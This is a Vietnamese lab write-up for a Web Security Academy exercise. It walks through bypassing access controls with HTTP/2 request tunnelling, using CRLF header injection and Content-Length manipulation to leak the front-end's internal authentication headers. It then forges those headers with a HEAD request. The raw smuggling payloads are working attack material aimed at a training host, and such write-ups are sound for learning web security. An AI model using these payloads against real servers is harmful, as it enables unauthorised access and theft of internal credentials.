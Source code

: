 ## Bypassing access controls via HTTP/2 request tunnelling (REFER)

1. Xác định được có thể smuggling thông qua CRLF header. Ví dụ ở đây khi inject header HOST bất kỳ vào request nhận được thông báo lỗi chứng tỏ cố gắng kết nối đến giá trị host.

![image](https://user-images.githubusercontent.com/80744099/230790461-b8145add-dccf-494e-a1a1-d9473897fdbd.png)

2. Ở lab này ô search là một reflect input. Lợi dụng điều này ta có thể lấy giá trị các authentication header được FE server thêm vào bằng cách đặt content-length và cắt phần body của request để param search phía trước các authentication header.

```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
...{Authentication header}
Content-Length: 8

search=x
```

- Sau khi inject payload:
```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
Foo: bar
Content-Length: 168

search=x:x
...{Authentication header}
Content-Length: 8

search=x
```

![image](https://user-images.githubusercontent.com/80744099/230791219-1471941e-ce0a-4e88-82c0-5c0f782663a0.png)

3.  Thay đổi giá trị content-length để xác định toàn bộ header cần thiết.  Nhận được các header trong đó ``X-SSL-CLIENT-CN`` chứa username.

```
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 9084482102113161
```

4. Chuyển sang method HEAD và thêm các giá trị thích hợp cho authentication header vào smuggling request (HEAD method chỉ trả lại các header mà không có phần body)

![image](https://user-images.githubusercontent.com/80744099/230791645-fbb13c25-b4dd-47ee-ad82-7d70adc3aa92.png)

5. Chuyển sang các endpoint khác mà có nội dung trả về của Method GET của endpoint đó nhỏ hơn tunnelled response. 

![image](https://user-images.githubusercontent.com/80744099/230791805-05781b6c-e04a-4673-abef-a4c43a8483cd.png)
